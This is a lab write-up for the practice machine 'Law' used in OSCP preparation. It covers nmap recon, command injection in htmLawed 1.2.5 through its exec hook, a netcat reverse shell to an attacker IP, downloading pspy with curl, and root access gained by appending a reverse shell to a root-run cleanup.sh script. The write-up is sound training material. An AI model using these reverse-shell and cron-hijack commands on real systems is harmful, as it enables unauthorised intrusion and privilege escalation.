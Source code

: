 ```yaml
---
title: Law
date: 2023-12-26
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Intermediate
---
```


![info](./info.png)

# Recon
Make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.227.190 law.offsec
```
## Nmap
``` bash
nmap -p- --open -sC -sV law.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan shows port 22 and 80 are open on the target. Port 80 is the web application, going to `http://law.offsec` reveals a web application built with htmLawed 1.2.5.

# Initial Access
Searching through google for htmLaw vulnerabilites, I came across a command injection exploit which ran commands using the `exec()` php function.
- the hook option in settings allows the user to set a function through which the input will be passed
- using the command `id` we can see if the web application runs the command without sanitizing the input
![hook](./hook.png)

However, when clicking on `Process`, we get an error 404 not found. Seems like the web application is sending the request to the wrong destination

We can alter this functionality by capturing the request in Burp Suite
- start burpsuite, and enter `id` in input field and the `exec` function in the hook field, then capture the request after clicking `Process`

We can remove the .php file from the URL as it seems like the web application does not contain this file/endpoint.
![htmlaw](./htmlaw.png)

After removing the `htmLawedTest.php` from the endpoint, we can forward the request
- the `id` command is executed by the web application and we can see that we are running under the user `www-data`
![id](./id.png)

## Reverse shell
Now that we have command injection, let's run a reverse shell to get a foothold on the server.
- start a netcat listener on the Kali host with `nc -lnvp 1234`
- then input the following command `nc -e /bin/sh 192.168.45.220 1234` in the input field, `exec` function in the hook field and capture the request to remove the php file from the URL
![revshell](./revshell.png)

We receive a reverse shell as `www-data`
![foothold](./foothold.png)
- the first flag is in the directory `/var/www`

# Privilege Escalation
## Pspy
Pspy is a tool that can be used to detect running cronjobs and other commmands being executed without the need for root permissions.

Follow these steps to use the pspy64s file and run it on the kali machine
1. Download the _64 bit small version: pspy64_ from the github [here](https://github.com/DominicBreuker/pspy/tree/master)
2. Start a python http server using `python3 -m http.server 80` in the directory with the downloaded pspy
3. On the target machine use the following command to save the pspy binary to the `/tmp` directory
```
curl -o /tmp/pspy64 http://$kali_ip/pspy64
```
4. Then run pspy by first running `chmod +x pspy64` then `./pspy64`

After running the script and waiting for some time (for cronjobs to run etc.) the output shows the following
![pspy](./pspy.png)

Remember: in the same web folder as `local.txt`, there was a file called `cleanup.sh`
- this file is being run through bash with uid=0 which is the root user
- if user `www-data` is able to change the `cleanup.sh` file, these commands will also be run as the root user

Start another listener and add the following command to the `cleanup.sh` file
```
echo "nc -e /bin/sh 192.168.45.220 1233" >> cleanup.sh
```
- make sure to use a different port than the first reverse shell
![root](./root.png)

# Summary
After reconnaissance and a Nmap scan, a htmLawed application on port 80 is identified. Exploiting a command injection vulnerability, we can gain a reverse shell as the www-data user. Privilege escalation involves Pspy to detect cron jobs, revealing a root-executed cleanup.sh script. By manipulating this script, we can establish a root-level reverse shell.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points